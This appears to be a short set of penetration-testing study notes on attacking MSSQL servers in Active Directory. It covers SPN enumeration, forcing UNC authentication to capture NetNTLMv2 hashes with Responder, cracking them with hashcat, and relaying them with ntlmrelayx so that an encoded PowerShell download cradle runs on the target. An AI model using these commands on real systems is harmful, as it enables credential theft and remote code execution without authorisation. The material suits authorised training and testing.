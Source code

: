 ## Microsoft SQL attacks

MSSQL in AD have SPN. To query the DC:

#AD #SPN #cmd
``` cmd
setspn -T corp1 -Q MSSQLSvc/*
```

#useful-script #ps1
``` ps1
. .\GetUserSPNs.ps1
```

### Authentication in MSSQL

In AD this is handled by Kerberos, and the mapping between the user and dbo is done. If no mapping, the user will be guest. To login mapped to sa will have sysadmin role. 

Domain Users are member of Builtin Users group which has access by default.

For code refer to the mssql-exp VS project.

### UNC Path Injection 

The idea is to force the MSSQL to connect to our SMB share so we capture NETNTLMv2 hash for cracking, later we will also learn to relay the hash.
We must provide the UNC path with IP, not hostname as Windows would automatically switch from Kerberos to NetNTLM. 

Run the mssql-exp binary, but start the responder first on Kali to get the hash.
#NetNTLM #responder
``` bash
sudo responder -I tun0
```

For cracking
#hashcat #cracking
``` bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


### Relay NetNTLM hash

To not crack the hash we can relay it - the password may be strong. If the user whose hash we relay is local admin, we can get code exec. It is only possible if SMB signing not enabled (enabled by default on DC, but not on the standard Windows Servers).

To start the relay attack we give the encoded ps1 with download cradle:
#encoding #impacket
``` bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc <encoded_download_cradle>'
```






